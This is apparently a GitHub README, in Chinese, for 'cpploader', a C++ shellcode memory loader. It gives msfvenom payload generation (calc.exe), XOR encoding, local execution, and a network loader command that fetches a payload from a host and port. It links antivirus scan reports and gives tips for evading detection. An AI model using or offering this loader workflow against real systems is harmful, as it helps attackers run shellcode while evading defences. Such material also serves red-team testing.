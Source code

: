# cpploader

shellcode 内存加载器 C++编写.

## usage

生成 payload

```
msfvenom -p windows/exec CMD=calc.exe -f raw -o calc.bin
```

加密 payload (默认 xor)

```
cppencoder.exe calc.bin enc.bin
```

`cpploader` 本地执行.

```
cpploader.exe enc.bin
```

`cppnerloader` 网络执行.

```
cppnetloader.exe 192.168.1.1 5555
```

## report

在线杀软扫描报告.

`cpploader`

[VirScan](http://r.virscan.org/language/zh-cn/report/d968bcfa2e2d9e1e29bf45c95c51f60f)

[VirusTotal](https://www.virustotal.com/gui/file/a56d0da8784f1ec01c354e7a0cfd2d004b36b509c266d344b25b2c5e7d458066/detection)

`cppnetloader`

[VirScan](http://r.virscan.org/language/zh-cn/report/092783011de845c8595b0d1ce5b56b8e)

[VirusTotal](https://www.virustotal.com/gui/file/992011c67059117a832b3e6cf7c16226046d42673f72d90cbf28aa18ab5a0ee5/detection)

# other

[C++ ShellCode 加载器](https://exp10it.cn/2019/08/c-shellcode-%E5%8A%A0%E8%BD%BD%E5%99%A8/)

编码/加密方式可自行发挥.

更改 vs 编译选项缩小体积.

自己写效果更好.


